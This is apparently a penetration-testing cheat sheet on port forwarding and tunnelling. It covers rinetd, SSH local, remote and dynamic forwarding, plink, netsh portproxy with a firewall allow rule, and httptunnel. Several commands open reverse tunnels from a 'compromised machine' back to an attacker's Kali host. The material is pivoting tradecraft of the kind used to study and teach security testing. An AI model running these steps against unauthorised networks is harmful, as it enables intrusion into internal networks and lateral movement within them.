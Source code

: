 # Port Forwarding
## [rinetd](https://github.com/samhocevar/rinetd)
It is used for redirect any traffic received to an specific port
- In its config file we have to specify the bindaddress, bindport, connectaddress and connectport:
  ```bash
  kali@kali:~$ cat /etc/rinetd.conf
  ...
  # bindadress bindport connectaddress connectport
  0.0.0.0 80 216.58.207.142 80
  ...
  
  kali@kali:~$ sudo service rinetd restart
  ```
## SSH Local Port Forwarding
### Linux
```bash
kali@kali:~$ sudo ssh -N -L 0.0.0.0:1337:10.0.0.2:80 root@10.0.0.1
```
![image](https://user-images.githubusercontent.com/43812413/199309514-9603a925-3358-4fee-b289-955c892f04ed.png)

## SSH Remote Port Forwarding
### Linux
```bash
user1@debian:~$ ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```

```bash
ssh -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" kali@10.11.0.4
```

#### SSH wothout password
```bash
# Compromised machine
mkdir keys
cd keys
ssh-keygen

#Kali
nano ~/.ssh/authorized_keys 
from="COMPRIMISED-IP",command="echo 'This account can only be used for port forwarding'", no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxO27JE5uXiHqoUUb4j9o/IPHxsPg+fflPKW4N6pK0ZXSmMfLhjaHyhUr4auF+hSnF2g1hN4N2Z4DjkfZ9f95O7Ox3m0oaUgEwHtZcwTNNLJiHs2fSs7ObLR+gZ23kaJ+TYM8ZIo/ENC68Py+NhtW1c2So95ARwCa/Hkb7kZ1xNo6f6rvCqXAyk/WZcBXxYkGqOLut3c5B+++6h3spOPlDkoPs8T5/wJNcn8i12Lex/d02iOWCLGEav2V1R9xk87xVdI6h5BPySl35+ZXOrzazbddS7MwGFz16coo+wbHbTR6P5fF9Z1Zm9O/US2LoqHxs7OxNq61BLtr4I/MDnin www-data@ubuntu

ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4
```
### Windows
#### plink
```bash
 cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
 ```


## SSH Dynamic Port Forwarding
- With the **-D** flag we can set a SOCKS4/5 application proxy
  ```
  kali@kali:~$ sudo ssh -N -D 127.0.0.1:8080 user1@10.11.0.128

  kali@kali:~$ cat /etc/proxychains.conf
  ...
  [ProxyList]
  # add proxy here ...
  # meanwile
  # defaults set to "tor"
  socks5 127.0.0.1 8080
  ```

- With the **-R** option, by not including a host after the port, ssh is instructed to create a SOCKS proxy on our Kali Server
  ```bash
  ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/.ssh/id_rsa kali@10.11.0.4
  ```
  

## NETSH Port Forwarding
- Installed by default on every modern version of Windows
- Windows system must have the *IP Helper* running and *IPv6* supports must be enabled.
```bash
C:\Windows\system32> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
```
- If theres is some rule in the Firewall that blocks the incoming connections to the specified port
```bash
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
``````

# Tunneling
## httptunnel
- It is used when only HTTP traffic is allowed. If we have a compromised machines we can:
  1. Set-up a SSH Port Forwarding in the target machine, that forwards the traffic to another machine in its private network
    ```bash
    www-data@debian:/$ ssh -L 0.0.0.0:8888:192.168.1.110:3389 user1@127.0.0.1
    ```
  2. Set-up a HTTP Tunnel between our machine and the compromised one (the compromised one will re-forward the traffic to the port configured in the port forwarding)
    ```bash
    # at the compromised machine
    user1@debian:~$ hts --forward-port localhost:8888 1234
    
    # at our Kali
    htc --forward-port 8080 10.11.0.128:1234
    ```
    

